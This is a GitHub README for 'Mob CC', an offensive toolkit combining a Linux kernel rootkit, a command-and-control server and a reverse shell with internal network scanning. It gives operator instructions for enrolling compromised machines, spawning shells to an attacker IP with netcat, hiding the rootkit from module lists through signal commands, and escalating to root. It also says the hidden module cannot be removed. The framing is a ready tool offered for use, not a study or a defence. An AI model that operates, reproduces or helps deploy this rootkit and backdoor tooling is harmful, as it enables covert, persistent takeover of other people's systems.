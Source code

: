 # mobcc

Mob CC is a framework containing a Linux kernel rootkit, C2 server and Reverse shell with network scanning capabilities.


Add Devices using the below link. (If you are using the kernel module then this step will be automatically done by that.)

Select the added Device and start sending commands to the target system.

As you may directly get root access but incase you don't get root access then check commands to gain root privilege.

You can also spawn a new shell and transfer it to any other attacking system by giving the IP of the attacking system.

---

# Note:
Note that if you kill the reverse shell process then you have to install the kernel rootkit module again into the target system.

No one can remove the module if it's hidden.

---

# Help

To spawn a new shell from different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'

To scan the internal network from the target system. 'scan'

To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'

To toggle between hide and show the kernel module. 'kill -63 1'

To gain root privilege in the target machine from any other attacking machine using reverse shell like above.'kill -64 1'

---

Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer.h is a helping module which is basically trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide itself from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor which can be used to connect to a C2 server.

Command & Control server:
  - Add new devices to the database by autocollecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and recieve response from the target system via reverse shell.
  - Provide list of all the commands and response from every compromised system.
  - Handle requests from multiple compromised systems simultaneously.

Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.


Resource: Linux Kernel rootkit
https://xcellerator.github.io/posts/linux_rootkits_01/

